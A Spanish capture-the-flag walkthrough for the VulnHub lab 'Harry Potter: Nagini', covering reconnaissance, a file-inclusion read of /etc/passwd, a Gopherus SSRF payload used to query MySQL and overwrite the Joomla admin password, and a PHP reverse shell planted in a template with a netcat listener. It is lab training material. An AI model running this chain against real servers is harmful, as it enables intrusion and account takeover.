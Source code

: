 <h1 align="center">
<br>
  <img src="https://static.wikia.nocookie.net/harrypotter/images/7/70/Nagini_PM.png/revision/latest?cb=20161124073206" alt="Front-End Checklist" width="200">
  <br>
  Harry Potter: Nagini
  <br>
</h1>

<h4 align="center">Maquina creada por <img src="https://img.icons8.com/android/344/twitter.png" alt="Front-End Checklist" width="12">@time4ster</h4>
<h4 align="center">Aquí puedes descargarte la <a href="https://www.vulnhub.com/entry/harrypotter-nagini,689/">página web</a> y ver una descripción de ella</h4>

---

# Índice

- [Recopilación de información](#recopilación-de-información)
  - [Nmap](#nmap)
  - [Fuzz]()
  - [Curl]()
  - [Web]()
- [Búsqueda de vulnerabilidades](#búsqueda-de-vulnerabilidades)
  - [SSRF]()
- [Explotación de vulnerabilidades](#explotación-de-vulnerabilidades)
  - [Gopherus]()
  - [Joomla]()
- [Post-explotación](#post-explotación)
  - [Explotación de vulnerabilidades](#explotación-de-vulnerabilidades-1)
    - [Reverse Shell]()
  - [Recopilación de información](#recopilación-de-información-1)
  - [Movimiento Lateral]()
  - [Búsqueda de vulnerabilidades](#búsqueda-de-vulnerabilidades-1)
       - [linPEAS]()
  - [Explotación de vulnerabilidades](#explotación-de-vulnerabilidades-1)
       - [Mozilla decrypt]()
- [Información Adicional](#información-adicional)


---

## Recopilación de información

Aquí veremos que esta conectado a la subred, los puerto abiertos, las paginas web, etc.

### Nmap

Veremos que redes estan conectadas a esta subred con este comando:

```nmap -sP 192.168.221.0/24```

Para ver los puertos abiertos que tiene la red utilizaremos este comando:

```nmap -sV -sC 192.168.221.8```

### Fuzz

Para fuzzear la web usaremos este comando con una wordlist que tengamos:

```ffuf -c -w /opt/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://192.168.221.8/FUZZ```

```ffuf -c -w /opt/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://192.168.221.8/joomla/FUZZ```

Para ver solo archivos con extensión .txt,.php,.html

```ffuf -c -w /opt/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.221.8/FUZZ -e .txt,.html,.php -ic```

> -ic para quitar basurilla del fuzz

Encontramos un .txt llamado **note**:

```
Hello developers!!


	I will be using our new HTTP3 Server at https://quic.nagini.hogwarts for further communications.
	All developers are requested to visit the server regularly for checking latest announcements.


	Regards,
	site_amdin
```

### Curl

Con el curl que tengo instalado no he podido leer la web HTTP3, asi que me he instalado el curl desde esta [página web](https://github.com/curl/curl/blob/master/docs/HTTP3.md#quiche-version).

He tenido algunos errores y para solucionarlo he utilizado esta [página web](https://stackoverflow.com/questions/44303915/no-default-toolchain-configured-after-installing-rustup) y este comando ```sudo pacman -S cmake```

Después de esto seguiremos estos comandos:

```
cd src
./curl --http3 https://quic.nagini.hogwarts
```
> 192.168.221.8 quic.nagini.hogwarts en el archivo /etc/hosts

En esa página web leemos esto:

```
Greetings Developers!!

                I am having two announcements that I need to share with you:

                1. We no longer require functionality at /internalResourceFeTcher.php in our main production servers.So I will be removing the same by this week.
                2. All developers are requested not to put any configuration's backup file (.bak) in main production servers as they are readable by every one.


                Regards,
                site_admin
```
### Web

Entramos en la página web que hemos recopilado anteriormente y probando hemos comprobado que tenemos un file inclusion:
```http://quic.nagini.hogwarts/internalResourceFeTcher.php?url=file:/etc/passwd```

Además también recopilamos que podria haber un archivo .bak, así que como sabemos que joomla tiene un **configuration.php** probaremos ese archivo pero con el **.bak**

En este archivo hemos encontrado que un usuario es **goblin** y el correo **site_admin@nagini.hogwarts**

## Explotación de vulnerabilidades

### Gopherus

Después de mucha búsqueda y de alguna **hint** que me han dado, he encontrao una vulnerabilidad de **SSRF**

> SSRF(Server-side Request Forgery) es una vulnerabilidad de seguridad web que permite a un atacante inducir a la aplicación del
> lado del servidor a realizar solicitudes HTTP a un dominio arbitario de la elección del atacante.
> Como ejemplo, el atacante puede hacer que el servidor se conecte a sí mismo.

Lo siguiente es [instalarlo](https://github.com/tarunkant/Gopherus):

```
git clone https://github.com/tarunkant/Gopherus.git
chmod +x gopherus.py
./gopherus.py --exploit mysql
```

Ahora crearemos los payloads necesarios para conseguir nuestro objetivo:

> **Iremos completando como esta escrito en los siguientes recuadros**

```
	Give MySQL username: goblin
	Give query to execute: show databases;
```

El payload empieza con **gopher:** hasta que termina. 

Este payload lo meteremos en la web ```http://quic.nagini.hogwarts/internalResourceFeTcher.php```

> IMPORTANTE: Actualizar la página 5 vezes aproximadamente para que aparezca la query

> ADEMÁS IR REPITIENDO LO MISMO EN CADA PASO HASTA TENER LA CONTRASEÑA DEL ADMIN DE JOOMLA

```
	Give MySQL username: goblin
	Give query to execute: show * from joomla;
```

```
	Give MySQL username: goblin
	Give query to execute: use joomla; show tables;
```

```
	Give MySQL username: goblin
	Give query to execute: use joomla; select * from joomla_users;
```

Lo que vamos hacer ahora es modificar la contraseña del usuario con el correo que encontramos anteriormente

```
	Give MySQL username: goblin
	Give query to execute: use joomla; update joomla_users set password='5f4dcc3b5aa765d61d8327deb882cf99' where email = 		'site_admin@nagini.hogwarts';
```

> Esa contraseña es **password** en md5

<img src="https://i.gyazo.com/56244fae80fb8c16a813a99b97a8b866.png">

> Se veria de esta forma el uso de esta tool

### Joomla

Iremos a esta dirección para modificar un index.php como una [reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php):

**Extension --> Templates -->  Templates (Site) --> Customise (Protostar)**

Ahora explotaremos la vulnerabilidad poniendo un puerto abierto ```rlwrap nc -nvlp 4444``` y abriendo la reverse shell desde esta url:
```http://192.168.221.8/joomla/templates/protostar/index.php```

